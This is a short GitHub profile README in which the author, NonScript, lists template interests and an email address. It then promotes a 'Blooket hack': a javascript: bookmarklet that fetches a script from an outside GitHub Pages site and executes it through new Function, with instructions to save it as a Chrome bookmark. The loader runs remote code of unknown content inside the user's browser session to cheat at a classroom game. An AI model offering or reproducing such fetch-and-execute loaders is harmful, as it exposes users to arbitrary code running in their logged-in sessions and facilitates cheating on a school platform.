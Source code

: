 - 👋 Hi, I’m @NonScript
- 👀 I’m interested in ... Working on my new programming language
- 🌱 I’m currently learning ... HTML and JavaScript
- 💞️ I’m looking to collaborate on ...coding
- 📫 How to reach me ...clinger420@outlook.com

<!---
NonScript/NonScript is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
I have a blooket hack its called The Ultumate Blooket Hack 
javascript:fetch('https://thatfrueddued.github.io/blooket-utility/index.js').then(r=>r.text()).then(t=>(new Function(t))())
use the javascript code and copy the thing and put it into a chrome bookmark or ctrl d or comand d it is very crazy.
